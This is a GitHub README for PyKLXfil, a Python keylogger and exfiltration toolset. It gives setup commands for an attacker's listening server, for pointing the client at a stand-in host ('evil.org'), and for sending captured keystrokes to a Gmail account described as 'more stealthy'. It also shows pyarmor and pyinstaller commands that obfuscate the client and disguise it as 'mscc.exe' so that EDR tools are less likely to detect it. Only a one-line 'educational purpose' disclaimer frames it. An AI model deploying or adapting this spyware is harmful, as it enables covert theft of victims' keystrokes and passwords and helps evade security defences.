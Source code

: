 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from a victem.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
### Disclaimer: For educational purpose, use at your own responsibility.
## Install:
```sh
  git clone https://github.com/iD4rksid3/PyKLXfil.git
  cd PyKLXfil
  #The tool requires only two external modules: yagmail and pynput
  pip3 install -r requirements.txt
  ```
## Usage:
### Key logging and exfiltration using socket server and client:
```sh
#start listening on all NICs and on port 443 as background job
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
* Compile and obfuscate the python client for a windows machine:
```sh
#Edit PyKLXfil-Client.py and add your server's IP/domain and port
 nano PyKLXfil-Client.py
 #snip...       
 #self.host = 'evil.org'
 #self.port = 4444
 ```
 * Make obfuscated Windows executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client.py -n mscc.exe
 ```
 * Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client.py
```
### Key logging and exfiltration using gmail (more stealthy):
* Compile and obfuscate the python gmail client for a windows machine (stand alone):
* Note: you will first need to get app password token to be used in the script, a good guide can be found [here](https://towardsdatascience.com/automate-sending-emails-with-gmail-in-python-449cc0c3c317)
```sh
nano PyKLXfil-Client-mail.py
 #snip...       
  #user = 'example@gmail.com'
  #app_password = 'qweertyuiop12345678'
  #to = 'example@gmail.com'
```
* Make obfuscated executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client-mail.py -n mscc.exe
 ```
 * After recieving the encoded log files, PyKLXfil-Decoder.py can be used to decode them:
```sh
python3 PyKLXfil-Decoder.py xxxx.log
#will result in a decoded file Decoded-xxxx.log
```
## License

Distributed under the MIT License. See `LICENSE` for more information.
